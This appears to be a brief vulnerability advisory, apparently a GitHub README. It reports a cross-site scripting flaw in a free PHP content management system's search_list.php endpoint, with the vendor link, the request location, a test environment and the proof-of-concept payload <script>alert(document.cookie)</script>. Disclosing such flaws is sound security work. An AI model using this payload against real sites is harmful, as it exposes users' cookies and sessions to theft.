 # Content-Management-Systemv1.0-has-Cross-site-Scripting-XSS-
Content Management System In PHP With Source Code has Cross-site Scripting (XSS)
Vul_Author: JiaMing Zhang

vendors: https://itsourcecode.com/free-projects/php-project/content-management-system-in-php-with-source-code/

Vulnerability File: /ecodesource/search_list.php

Vulnerability location: POST /ecodesource/search_list.php HTTP/1.1\r\n

[+] Payload: <script>alert(document.cookie)</script>

Tested on Windows 10, phpStudy

There is an example with alert:
![There is an example with alert:](https://github.com/TzssZ/Content-Management-Systemv1.0-has-Cross-site-Scripting-XSS-/blob/main/1.png)


